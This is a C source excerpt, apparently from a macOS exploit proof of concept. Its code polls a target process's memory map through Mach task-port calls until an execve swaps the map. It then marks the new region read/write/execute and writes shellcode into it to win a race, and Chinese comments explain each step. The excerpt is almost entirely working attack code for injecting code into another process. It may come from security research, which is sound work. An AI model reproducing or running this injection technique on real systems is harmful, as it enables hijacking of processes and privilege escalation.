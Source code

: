 ```
                       &object_name);

  if (err != KERN_SUCCESS) {
    mach_error("unable to get first mach_vm_region for target process\n", err);
    return;
  }

  printf("[+] looks like the target processes lowest mapping is at %zx prior to execve\n", original_first_addr);

  // send an ack message to the reply port indicating that we have the thread port
  ack_msg_send_t ack = {0};

  mach_msg_type_name_t reply_port_rights = MACH_MSGH_BITS_REMOTE(msg.header.msgh_bits);

  ack.header.msgh_bits = MACH_MSGH_BITS(reply_port_rights, 0);
  ack.header.msgh_size = sizeof(ack);
  ack.header.msgh_local_port = MACH_PORT_NULL;
  ack.header.msgh_remote_port = msg.header.msgh_remote_port;
  ack.header.msgh_bits = MACH_MSGH_BITS(reply_port_rights, 0); // use the same rights we got

  err = mach_msg_send(&ack.header);
  if (err != KERN_SUCCESS) {
    mach_error("parent failed sending ack", err);
    return;
  }

  mach_vm_address_t target_first_addr = 0x0;
  for (;;) {
    // wait until we see that the map has been swapped and the binary is loaded into it:
    // 不断的循环去获取内存的信息
    region_count = VM_REGION_BASIC_INFO_COUNT_64;
    object_name = MACH_PORT_NULL; /* unused */
    target_first_size = 0x1000;
    target_first_addr = 0x0;

    err = mach_vm_region(target_task_port,
                         &target_first_addr,
                         &target_first_size,
                         VM_REGION_BASIC_INFO_64,
                         (vm_region_info_t)&region,
                         &region_count,
                         &object_name);

    if (target_first_addr != original_first_addr && target_first_addr < 0x200000000) {
      // the first address has changed implying that the map was swapped
      // let's try to win the race
      // 当发现获取到的内存信息与之前的不同
      // 说明竞争的窗口打开了
      // 可以尝试去写入shellcode了
      break;
    }

  }

  //写入shellcode
  mach_vm_address_t target_addr = target_first_addr + 0x1000;
  mach_msg_type_number_t target_size = 0x1000;
  mach_vm_protect(target_task_port, target_addr, target_size, 0, VM_PROT_READ | VM_PROT_WRITE | VM_PROT_EXECUTE);
  mach_vm_write(target_task_port, target_addr, addr, target_size);

  printf("hopefully overwrote some code in the target...\n");
```